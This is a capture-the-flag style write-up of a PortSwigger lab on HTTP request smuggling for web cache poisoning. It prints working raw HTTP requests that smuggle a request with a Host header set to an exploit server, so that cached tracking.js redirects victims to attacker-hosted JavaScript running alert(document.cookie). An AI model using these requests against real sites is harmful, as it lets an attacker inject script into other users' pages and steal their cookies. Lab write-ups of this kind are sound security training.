 # Exploiting HTTP request smuggling to perform web cache poisoning

This is one of those labs that doesn't resolve without wasting my time. I tried for 20 minutes, and do get windows with a text `alert(document.cookie)`, but the payload does not get executed (in Firefox or Chrome), and I do not wish to waste more time on it. Twenty minutes of clicking buttons is enough for me.

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

## Reproduction and proof of concept

1. Open a blog post, click "Next post", and try smuggling the resulting request with a different Host header:

![HTTP header smuggling](../../_static/images/smuggling17.png)

2. Observe that you can use this request to make the next request to the website get redirected to `/post` on a host of your choice.
3. Go to your exploit server, and create a `text/javascript` file at `/post` with the contents:
    `alert(document.cookie)`
4. Poison the server cache by first relaunching the previous attack using your exploit server's hostname as follows:

```html
POST / HTTP/1.1
Host: 0a3400fc03a1a931c066549300250068.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: https://exploit-0ab5004903ada9fcc0db539e010d0078.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

**Follow redirection** when receiving a `302` gives:

![HTTP header smuggling](../../_static/images/smuggling16.png)

5. Then fetch `/resources/js/tracking.js` by sending the following request:

```text
GET /resources/js/tracking.js HTTP/1.1
Host: 0a3400fc03a1a931c066549300250068.web-security-academy.net
Connection: close
```

![HTTP header smuggling](../../_static/images/smuggling15.png)

If the attack has succeeded, the response to the `tracking.js` request should be a redirect to your exploit server.

6. Confirm that the cache has been poisoned by repeating the request to `tracking.js` several times and confirming that you receive the redirect every time.

You may need to repeat the `POST/GET` process several times before the attack succeeds. 

## Exploitability

An attacker will need to perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache would alert `document.cookie`. The lab simulates the activity of a victim user. Every few POST requests that an attacker makes to the lab, the victim user will make their own request. An attacker might need to repeat their attack a few times to ensure that the victim user's request occurs as required.
